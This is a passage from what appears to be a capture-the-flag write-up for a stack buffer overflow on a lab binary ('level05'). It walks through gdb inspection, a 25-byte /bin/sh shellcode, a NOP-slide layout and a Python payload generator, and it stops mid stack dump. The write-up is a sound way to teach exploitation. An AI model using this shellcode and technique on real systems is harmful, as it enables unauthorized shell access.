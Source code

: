     (gdb) x/s *0xbffffcf4
    0xbffffe15:     "/levels/level05"
    (gdb) x/s *0xbffffcf8
    0xbffffe25:     "a"

Here we have `argv[0]` and `argv[1]`, which is `argv[0]+4`.

So we know that we need to override the return address with another address, but which one? We can controle the content of the `buf` string, so it is what we'll modify.

In order to gain access, and to spawn a shell, we need a shellcode. We'll use the following shellcode:

    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

Which is a simple call to "/bin/sh", inspired from [here](http://shell-storm.org/shellcode/files/shellcode-827.php).

To make the processor execute this code, we need to make the `$eip` equal to it first byte, to do that, we'll use a well-known technique of the [NOP Slide](https://en.wikipedia.org/wiki/NOP_slide).

Let say you can set up the next address of instruction, but you have only an approximation of where your shellcode is, you can build a "slide" that will leave the processor to your shellcode:

    / uncertain address
    v
    \x90\x90\x90\x90...\x90<shellcode>

So when you set the address, instead of having a perfect match, you just need to give an address inside the NOP slide and the processor will end up executing the shellcode.

In our case we have the following scenario:

    136                  4    4
    [buf                ][ebp][ret]
    \x90\x90...\x90<shellcode><add>
    ??             25         4

Our shellcode is 25 bytes long so we have a total of 136 + 4 - 25 = 115 NOP bytes to fill.

To generate our string let's use the following python code

    print "\x90"*115 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "<address>"

We just need to find the address of the Nop slide somewhere in memory. There's two places where we can find it: inside the buffer after copy, on the stack as an argument all the time. Here is how to do it with `argv[1]` on the stack:

I run the payload without address to inspect the stack:

    (gdb) break main
    Breakpoint 1 at 0x80483bd
    (gdb) run $(python -c 'print "\x90"*115')
    Starting program: /levels/level05 $(pytho
    Breakpoint 1, 0x080483bd in main ()
    (gdb) x/200wx $esp
    0xbffffb40:     0x00000001      0x00000000      0x00000001      0xb7fff930
    0xbffffb50:     0xb7ff8300      0x00000000      0xb7e20940      0x00000001
    0xbffffb60:     0x0000002c      0x00000006      0x002c307d      0x00000000
    0xbffffb70:     0xbffffc24      0xbffffb98      0xbffffb90      0x0804820b
    ...
    0xbffffc50:     0x00000002      0x080482f0      0x00000000      0x08048311
    0xbffffc60:     0x080483b4      0x00000002      0xbffffc84      0x08048470 <- ebp
    0xbffffc70:     0x08048420      0xb7fedc50      0xbffffc7c      0x0000001c
    ...
    0xbffffd50:     0x0000000d      0x000003ed      0x0000000e      0x000003ed
    0xbffffd60:     0x00000017      0x00000000      0x00000019      0xbffffd8b
    0xbffffd70:     0x0000001f      0xbfffffec      0x0000000f      0xbffffd9b
    0xbffffd80:     0x00000000      0x00000000      0x9f000000      0x1ce9fe5d